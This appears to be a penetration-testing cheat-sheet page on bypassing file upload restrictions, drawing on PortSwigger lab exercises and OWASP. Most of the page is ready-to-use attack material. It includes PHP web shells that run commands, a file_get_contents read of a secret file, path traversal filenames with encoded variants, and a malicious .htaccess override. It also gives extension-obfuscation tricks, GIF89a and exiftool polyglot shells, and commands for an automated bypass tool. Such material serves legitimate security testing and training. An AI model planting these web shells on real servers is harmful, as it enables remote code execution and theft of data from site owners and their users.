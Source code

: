 # 🗃 File Upload Bypass

{% embed url="https://portswigger.net/web-security/file-upload" %}
Source
{% endembed %}

![File Upload Bypass Technique](<../../../.gitbook/assets/image (41).png>)

### Web shell Upload via **Content-Type restriction** Bypass

When uploading a .php file;

```bash
# Change :
# Content-Type: application/x-php
# to
# Content-Type: image/jpeg
# Content-Type: image/png
```

### Web shell upload via path traversal

When uploading a php file; You can upload the file to a different directory with lesser controls (a different directory that's not supposed to contain user-supplied files)

```bash
# Change :
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# to
# Content-Disposition: form-data; name="avatar"; filename="../secrets.php"

# You can encode "../" as :
    %2e%2e%2f
    %252e%252e%252f
    ..%c0%af
    ..%ef%bc%8f
# Then access the file with LFI :
# GET /files/avatars/../secrets.php
```

### Overriding the server configuration

Before uploading a php file;

* Servers also allow developers to create special configuration files within individual directories in order to override or add to one or more of the global settings.
* Apache servers, for example, will load a directory-specific configuration from a file called **.htaccess** if one is present.

```php
# First, upload a malicious .htaccess :
# Content-Disposition: form-data; name="avatar"; filename=".htaccess"
# Content-Type: text/plain

# AddType application/x-httpd-php .l33t

# Then upload the php file with .l33t extention
# Content-Disposition: form-data; name="avatar"; filename="secrets.l33t"
# Content-Type: application/x-php

<?php echo file_get_contents('/home/carlos/secret'); ?>
# or
<?php system($_GET['cmd']); ?>
```

### Web Shell Upload Bypasses Techniques List

**According to OWASP the following list can be used by penetration testers in order to bypass a variety of protections :**

* Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes. If the value isn't decoded when validating the file extension, but is later decoded server-side, this can also allow you to upload malicious files that would otherwise be blocked: **exploit%2Ephp**
* Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like **xC0 x2E, xC4 xAE or xC0 xAE** may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.
* **Content-Type** —> Change the parameter in the request header using Burp, ZAP etc.
* Put **server executable extensions :** **.php5**, **.shtml**, **.asa**, **.cert**
* Changing letters to **capital** form : **.aSp**, **.PHp3**
* Using **trailing** **spaces** and/or **dots** at the end of the filename like **.asp.. . .... ...** , **.asp** , **.asp.**
* Use of **semicolon** after the forbidden extension and before the permitted extension : **.asp;.jpg** (_Only in IIS 6 or prior_)
* Upload a file with **2 extensions** —> **file.php.jpg**
* Use of **null** **character**—> **file.asp%00.jpg**
* Create a file with a **forbidden** **extension** —> **file.asp:.jpg** or **file.asp::$data**
* <mark style="color:red;">**ALSO : Combination of the above**</mark>

### Remote Code Execution via Polyglot web shell upload

> In order to upload a php file where the file verification is done on the server side (checking if it is really a IMAGE file), we can **disguise a php file** **as an image file.**

When uploading a php file :

```php
# You can add :
GIF89a; // at the beginning of the php file or in the burp request

# Burp request
# Content-Disposition: form-data; name="avatar"; filename="secrets.php"
# Content-Type: application/x-php

# GIF89a at the beginning of the php command
GIF89a;<?php echo file_get_contents('/home/carlos/secret'); ?>
# OR
GIF89a;<?php system($_GET['cmd']); ?>
```

![PHP file disguised as an GIF file](<../../../.gitbook/assets/image (6) (1) (1) (1).png>)

or, Generate a polyglot payload using **exiftool :**

```bash
# example 1
exiftool -Comment="<?php echo 'START ' . 
file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

# example 2
exiftool -Comment="<?php echo 'START ' . 
system($_GET['cmd']); . ' END'; ?>" $input.jpg -o polyglot.php
```

## upload\_bypass

> File upload restrictions bypass by using different bug bounty techniques! Tool must be running with all its assets!

{% embed url="https://github.com/sAjibuu/upload_bypass" %}

### Install

```bash
git clone https://github.com/sAjibuu/upload_bypass.git
cd upload_bypass/
pip3 install -r requirements.txt

python3 ext_bypass.py -u $url -e $extension-file -a $allowed-extension -s $success-msg --location $path-of-uploaded-file
```

### PoC

{% embed url="https://www.youtube.com/watch?v=quFoDysbDto" %}
